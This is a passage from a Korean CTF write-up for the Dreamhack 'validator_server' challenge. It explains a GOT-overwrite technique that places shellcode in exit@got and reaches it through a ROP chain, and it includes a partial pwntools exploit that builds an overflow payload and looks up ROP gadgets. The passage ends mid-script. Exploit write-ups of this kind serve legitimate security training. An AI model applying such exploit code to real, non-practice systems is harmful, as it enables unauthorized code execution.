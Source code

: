 ## 2. GOT Overwrite 공격으로 `exit@got`에 `shellcraft`를 활용한 쉘코드 Overwrite (버전에 상관없이 가능)

바로 앞의 방식에서, `bss` 영역에 `shellcode`를 Overwrite하는 대신 바이너리에 존재하는 `exit@got`에 `shellcode`를 Overwrite 하면 된다.

이번 문제는 **PIE**도 적용되어있지 않기 때문에, **GOT Overwrite**를 위해 PIE base를 구해주지 않아도 되서 거의 같은 난이도로 풀이가 가능하다.

익스플로잇 코드는 아래와 같고, `bss`를 `exit@got`로 바꿔주면 끝이다. 

참고로, 어쩌피 `exit@got`가 아니라 `read@got`로 해줘도 Overwrite 이후에 `read` 함수가 사용되지 않기 때문에 공격이 가능하다. 

주의할 점은 `got`가 아닌 `plt`를 마지막에 호출해주거나, 똑같은 논리로 어쩌피 마지막에 `exit`가 호출될 것이기 때문에 `exit@got`로 Return하는 코드를 없애면 Exploit이 불가능하다.

그 이유는 나중에 정확히 알아보고 추가하겠지만, 아래의 두 이유 중 하나로 예측하고 있다.

---

`plt`를 호출하면, 인자를 설정하는 과정에서 오류가 발생해서 쉘코드가 정상적으로 실행되지 않는다.

---

`plt`를 통해 `got`를 참조할 때 `got`에 적힌 **함수의 주소**를 따라가서 실행한다. 

**그런데 여기서 GOT Overwrite를 할 때는 일반적인 방법처럼 `system` 함수나 `get_shell`의 주소를 대입하는 것이 아니라, `shellcode`인 머신 코드 자체를 대입한다.**

따라서, `plt`를 통해서는 `got`에 적힌 쉘코드 `instruction` 자체를 수행할 수 없고, `got` 주소로 직접 Return address를 조작해서 점프해야 쉘코드를 실행할 수 있다.

**RAO** 공격에서 Return address로 이동할 때는, Return address에 적힌 주소(`exit@got`)로 이동하여, 해당 주소에 적혀있는 **instruction**(`shellcode`)을 바로 수행하기 때문이다.

---

```
from pwn import *

context.arch = "amd64"

p = remote('host3.dreamhack.games', 9820)
elf = ELF('./validator_server')
r = ROP(elf)


# [1] validate

payload = b"DREAMHACK!"  # index : 0 ~ 9
payload += b'A'          # index : 10

# index : 11 ~ 128 (s[128]에도 대입해줘야 s[127]의 비교에서 exit가 발생하지 않음)
for i in range(127, 9, -1):   # 127 ~ 10 까지 -1씩 감소시키며 (char 범위는 -128 ~ 127 이므로, 범위를 127부터 해줘야함)
    payload += bytes([i])     # 바이트 문자열로 변환
    # payload += p8(i)        # 이렇게 해도됨

payload += b'a' * 0x7         # SFP : 앞에서 SFP의 첫번째 바이트까지 넘어왔기 때문에 7바이트만 덮어야함

# index : 10 ~ 128 + SFP -> 총 126 바이트
# for i in range(126, 0, -1):  # 127 ~ 1 까지 -1씩 감소시키며
#     payload += bytes([i])     # 바이트 문자열로 변환
#     # payload += p8(i)        # 이렇게 해도됨

print(len(payload))

# [2] ROP
pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_pop_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
pop_rdx = r.find_gadget(['pop rdx', 'ret'])[0]
```